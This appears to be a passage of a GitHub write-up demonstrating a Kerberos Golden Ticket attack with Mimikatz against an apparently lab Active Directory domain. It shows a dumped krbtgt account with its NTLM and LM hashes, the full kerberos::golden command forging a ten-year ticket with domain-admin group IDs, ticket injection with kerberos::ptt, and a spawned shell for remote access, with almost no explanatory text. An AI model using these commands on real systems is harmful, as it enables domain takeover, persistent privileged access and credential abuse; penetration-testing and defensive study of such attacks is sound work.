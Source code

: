 	Object RDN           : krbtgt

	** SAM ACCOUNT **

	SAM Username         : krbtgt
	Account Type         : 30000000 ( USER_OBJECT )
	User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
	Account expiration   : 
	Password last change : 13.08.2021 07:22:10
	Object Security ID   : S-1-5-21-3410397846-649609989-2919355437-502
	Object Relative ID   : 502

	Credentials:
	  Hash NTLM: c2d3b9268608fab2b14a8c78c36316aa
		ntlm- 0: c2d3b9268608fab2b14a8c78c36316aa
		lm  - 0: 36fa5c99898f8a75a7783f250a6bf892


Generate Golden Ticket

	mimikatz # kerberos::golden /domain:valhalla.local /sid:S-1-5-21-3410397846-649609989-2919355437 /rc4:c2d3b9268608fab2b14a8c78c36316aa /id:500 /user:IgotGoldenTicketCharlie
	User      : IgotGoldenTicketCharlie
	Domain    : valhalla.local (VALHALLA)
	SID       : S-1-5-21-3410397846-649609989-2919355437
	User Id   : 500
	Groups Id : *513 512 520 518 519 
	ServiceKey: c2d3b9268608fab2b14a8c78c36316aa - rc4_hmac_nt      
	Lifetime  : 14.08.2021 01:11:51 ; 12.08.2031 01:11:51 ; 12.08.2031 01:11:51
	-> Ticket : ticket.kirbi

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Final Ticket Saved to file !
	
	
	
Inject ticket to current session
	
	mimikatz # kerberos::ptt ticket.kirbi

	* File: 'ticket.kirbi': OK


Open new cmd with injected ticket

	mimikatz # misc::cmd
	Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 000000004AC49C78

Access remote pc with normal shell

![image](https://user-images.githubusercontent.com/13157446/129424592-e3ed2a44-da5b-4092-a510-ec0c82c379af.png)


![image](https://user-images.githubusercontent.com/13157446/129424244-a7789524-03b0-454f-9c31-00ea922325a1.png)
